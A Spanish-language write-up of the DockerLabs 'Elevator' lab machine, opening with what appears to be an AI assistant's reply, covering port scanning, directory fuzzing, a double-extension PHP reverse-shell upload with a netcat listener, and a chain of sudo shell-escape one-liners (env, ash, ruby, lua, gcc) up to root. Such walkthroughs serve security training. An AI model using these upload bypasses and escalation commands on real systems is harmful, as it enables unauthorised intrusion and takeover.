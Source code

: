 Perfecto, gracias por la aclaración. A continuación te presento una **versión más completa y explicada**, incluyendo tus notas, el escaneo con `nmap -sCV`, y una explicación detallada de cada escalada de privilegios entre usuarios.

---

# Informe de Pentesting – Máquina Vulnerable *Elevator*

![Logo](/Elevator/Imagenes/Logo.png)

## Descripción General

Se descarga la máquina vulnerable *Elevator* desde la plataforma DockerLabs. El archivo comprimido se descomprime con:

```bash
unzip elevator.zip
```

Luego, se despliega la máquina con el script proporcionado:

```bash
sudo bash auto_deploy.sh elevator.tar
```

---

## 1. Verificación de Conectividad

Se comprueba que la máquina está activa y accesible mediante un *ping*:

```bash
ping -c4 172.17.0.2
```

![Ping](/Elevator/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento

### 2.1 Escaneo de Puertos

Se realiza un escaneo completo de puertos para identificar servicios accesibles:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos](/Elevator/Imagenes/Puertos.jpeg)

Resultado: solo se encuentra el puerto 80 (HTTP) abierto.

Se extraen los puertos válidos con el script personalizado:

```bash
extractPorts allPorts.txt
```

### 2.2 Escaneo Avanzado

Con el puerto 80 confirmado, se realiza un escaneo con detección de versiones y scripts comunes:

```bash
nmap -sCV -p 80 172.17.0.2 -oN target.txt
```

Este comando permite detectar:

* Versiones de software del servidor web
* Posibles vulnerabilidades expuestas
* Archivos robots.txt u otros que den pistas

---

## 3. Análisis Web

Se accede al servicio web vía navegador, pero no se encuentra nada llamativo a simple vista.

![Página Principal](/Elevator/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing y Enumeración de Directorios

Se realiza fuzzing con *Gobuster* para descubrir rutas ocultas:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](/Elevator/Imagenes/Fuzzing.jpeg)

Se descubren dos directorios, entre ellos `/themes`. Se hace fuzzing adicional sobre esa ruta:

```bash
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

---

## 5. Descubrimiento de Funcionalidad Vulnerable

Se identifica la ruta `http://172.17.0.2/themes/archivo.html`, la cual permite subir archivos `.jpg`.

![Subida](/Elevator/Imagenes/Subir.jpeg)

También se encuentra:

* `http://172.17.0.2/themes/uploads/` → directorio donde se listan las imágenes subidas
* `http://172.17.0.2/themes/upload.php` → script encargado del upload

![Directorio Uploads](/Elevator/Imagenes/Directorio.jpeg)

---

## 6. Explotación – Reverse Shell

### 6.1 Preparación del Payload

Se crea una reverse shell PHP con doble extensión `.php.jpg` para evadir filtros de tipo MIME:

```php
nano php_reverseshell.php.jpg
```

![Reverse Shell GitHub](/Elevator/Imagenes/Gitrevershell.jpeg)
![Tricks](/Elevator/Imagenes/tricks.jpeg)

> ⚠️ Esta técnica funciona cuando el servidor evalúa el archivo por su contenido real y no solo por la extensión.

El archivo se sube con éxito:

![Archivo Subido](/Elevator/Imagenes/Archivo.jpeg)
![Subida Exitosa](/Elevator/Imagenes/Subida.jpeg)

### 6.2 Ejecución del Payload

Antes de ejecutar el archivo, se escucha en el puerto especificado dentro del script PHP:

```bash
sudo nc -lvnp 443
```

![Escucha](/Elevator/Imagenes/Escucha.jpeg)

Al acceder al archivo desde el navegador, se ejecuta la reverse shell y se obtiene acceso como `www-data`.

---

## 7. Escalada de Privilegios

### Cadena de Escalada:

1. **www-data → daphne**
   Puede ejecutar `/usr/bin/env` como `daphne` sin contraseña:

   ```bash
   sudo -u daphne /usr/bin/env /bin/bash
   ```

2. **daphne → vilma**
   `daphne` tiene permiso para ejecutar `ash` como `vilma`:

   ```bash
   sudo -u vilma /usr/bin/ash
   ```

3. **vilma → shaggy**
   `vilma` puede usar `ruby`:

   ```bash
   sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
   ```

4. **shaggy → fred**
   `shaggy` tiene permiso sobre `lua`:

   ```bash
   sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
   ```

5. **fred → scooby**
   `fred` puede ejecutar `gcc` con el wrapper:

   ```bash
   sudo -u scooby /usr/bin/gcc -wrapper /bin/bash,-s .
   ```

6. **scooby → root**
   `scooby` puede usar `sudo` como root directamente:

   ```bash
   sudo -u root /usr/bin/sudo su
   ```

![Intrusión](/Elevator/Imagenes/Intrusion.jpeg)
![Escalada](/Elevator/Imagenes/Escalada.jpeg)

---

## 8. Conclusión

Esta máquina representa un excelente ejemplo de cómo múltiples configuraciones incorrectas en `sudoers` pueden llevar a una escalada completa de privilegios, incluso cuando se comienza con un acceso mínimo desde una web shell.

Se destacan los siguientes problemas de seguridad:

* Falta de validación de contenido real en el sistema de subida de archivos.
* Configuración permisiva de múltiples usuarios con permisos `NOPASSWD`.
* Encadenamiento de privilegios entre usuarios sin control ni segmentación.
